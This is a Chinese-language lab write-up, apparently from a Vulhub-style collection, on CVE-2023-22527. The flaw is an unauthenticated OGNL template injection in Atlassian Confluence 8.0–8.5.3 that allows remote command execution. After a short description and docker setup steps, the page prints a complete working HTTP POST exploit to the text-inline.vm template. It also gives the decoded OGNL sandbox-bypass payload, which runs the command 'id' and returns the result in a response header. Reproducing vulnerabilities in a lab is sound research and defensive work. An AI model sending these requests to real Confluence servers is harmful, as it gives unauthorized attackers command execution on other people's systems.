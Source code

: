 # Atlassian Confluence OGNL表达式注入命令执行漏洞 CVE-2023-22527

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

参考链接：

- [https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html](https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html)
- [https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/](https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/)

## 环境搭建

Vulhub 执行如下命令启动一个Confluence Server 8.5.3：

```
docker compose up -d
```

环境启动后，访问`http://your-vps-ip:8090`即可进入安装向导。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的试用版许可证，申请方法可参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)。

在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](images/Atlassian%20Confluence%20OGNL表达式注入命令执行漏洞%20CVE-2023-22527/image-20240226144953603.png)

## 漏洞复现

直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: your-vps-ip:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

在Confluence 7.18.0版本后，官方开发者为其引入了`isSafeExpression`函数来限制执行恶意OGNL表达式。安全研究者[Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/)分享了一种利用velocity模板中的`#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`来获取无沙箱的OGNL对象并执行任意语句的绕过方法，完整并解码后的Payload如下：

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
